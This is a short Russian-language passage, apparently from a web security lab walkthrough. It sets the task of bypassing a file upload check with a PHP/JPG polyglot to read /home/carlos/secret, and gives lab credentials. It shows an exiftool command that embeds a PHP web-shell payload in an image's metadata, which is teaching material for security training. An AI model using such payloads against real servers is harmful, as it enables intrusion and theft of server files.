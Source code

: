 Чтобы решить эту задачу, загрузите базовую веб-оболочку PHP, а затем используйте ее для получения содержимого файла `/home/carlos/secret`. Отправьте этот секрет с помощью кнопки, расположенной на баннере лабораторной работы.  
  
Вы можете войти в свой собственный аккаунт, используя следующие учетные данные: `wiener:peter`

##### Решение

Создайте **polyglot** PHP/JPG-файл, который по своей сути является обычным изображением, но содержит в своих метаданных полезную нагрузку PHP. Простой способ сделать это - загрузить и запустить` ExifTool` из командной строки следующим образом:
```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```